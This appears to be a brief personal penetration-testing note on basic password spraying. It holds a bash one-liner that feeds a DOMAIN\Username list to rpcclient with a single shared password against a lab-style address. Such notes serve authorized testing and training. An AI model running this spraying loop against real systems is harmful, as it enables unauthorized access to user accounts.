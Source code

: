 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Basic Spraying

Create a username list formatted like the following:

DOMAIN\\Username

~~~bash
cat usernames.txt | while read line; do echo $line && rpcclient -U “$line%P@ssw0rd12” -c “getusername;quit” 10.10.10.100; done
~~~


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
